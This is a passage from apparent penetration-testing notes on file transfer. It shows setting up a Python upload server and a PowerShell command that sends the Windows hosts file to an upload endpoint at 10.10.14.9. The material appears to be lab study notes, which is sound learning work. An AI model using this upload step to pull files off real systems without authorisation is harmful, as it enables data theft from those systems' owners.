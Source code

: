 Again, the hashes are matching `93453E17ECF7EF7028864D144B1347A5` !

## Web Server Upload

I can use `uploadserver` which is an extended module of the Python `http.server` module.

```bash
pip3 install uploadserver
python3 -m uploadserver
```

Now, I can upload my file on [http://127.0.0.1:8000/upload](http://127.0.0.1:8000/upload)

<figure><img src="../../../.gitbook/assets/linux-web-server-upload-page.png" alt=""><figcaption></figcaption></figure>

Once I submit the query, I see the file has been received on the web server

<figure><img src="../../../.gitbook/assets/linux-web-server-upload.png" alt=""><figcaption></figcaption></figure>

I can upload the file with Powershell

```powershell
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
